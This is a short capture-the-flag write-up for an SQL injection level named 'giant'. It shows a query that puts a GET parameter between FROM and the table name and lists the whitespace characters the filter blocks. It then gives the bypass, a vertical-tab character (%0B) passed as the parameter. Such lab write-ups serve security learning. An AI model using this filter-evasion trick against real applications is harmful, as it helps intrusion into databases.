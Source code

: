 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 14
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/cf244332-a0d2-4992-a29d-c16c73b69db7)

We are provided with the SQL query:

```sql
SELECT 1234 FROM{$_GET[shit]}prob_giant WHERE 1
```

### Filter

The code filters out the following characters:

- Space 
- New line 
- Carriage return
- Tab

In order to solve the challenge, we have to separate the `FROMprob_giant`.
Since Tabs are filtered out, we have to use the Vertical tab (`%0B`) character.

If we provide the following URI parameter:

```
?shit=%0B
```

SQL parsers typically treat vertical tabs as whitespace. Therefore, injecting a vertical tab (`%0B`) should be parsed as a space by the SQL engine.

The resultant query becomes:

```sql
SELECT 1234 FROM prob_giant WHERE 1
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/633b9e01-cf5c-4b96-ae06-ceae467e3971)
